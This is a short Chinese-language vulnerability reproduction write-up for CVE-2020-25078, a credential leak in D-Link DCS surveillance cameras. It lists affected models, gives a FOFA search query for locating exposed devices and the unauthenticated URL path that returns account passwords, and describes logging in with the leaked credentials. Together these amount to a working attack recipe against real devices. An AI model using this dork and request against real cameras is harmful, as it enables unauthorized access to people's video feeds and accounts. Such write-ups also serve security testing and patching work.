 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面

## 漏洞影响

```
DCS-2530L
DCS-2670L
DCS-4603
DCS-4622
DCS-4701E
DCS-4703E
DCS-4705E
DCS-4802E
DCS-P703
```

## FOFA

```
app="D_Link-DCS-2530L"
```

## 漏洞复现

访问登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162226738.png)

出现漏洞的 Url 为, 其中泄露了账号密码

```plain
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162227778.png)

使用泄露的账号密码登陆系统

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162227388.png)
